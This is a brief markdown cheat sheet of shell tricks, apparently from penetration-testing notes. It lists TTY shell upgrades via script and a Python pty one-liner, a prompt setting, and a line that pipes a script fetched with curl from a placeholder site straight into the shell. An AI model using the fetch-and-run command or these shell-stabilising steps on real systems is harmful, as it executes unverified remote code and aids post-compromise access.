 
- **Spawn TTY shell**: `/usr/bin/script -qc /bin/bash /dev/null`
> Note: This method shows yourself logged in.

<br />

- **Add PWD in bash**: `PS1='\u@\h:\w\$ '`

<br />

- **Spawn Python TTY Shell**: `python -c 'import pty;pty.spawn("/bin/bash")'`

<br />

- **Run script from URL**: `source <(curl -s http://mywebsite.com/myscript.sh)`
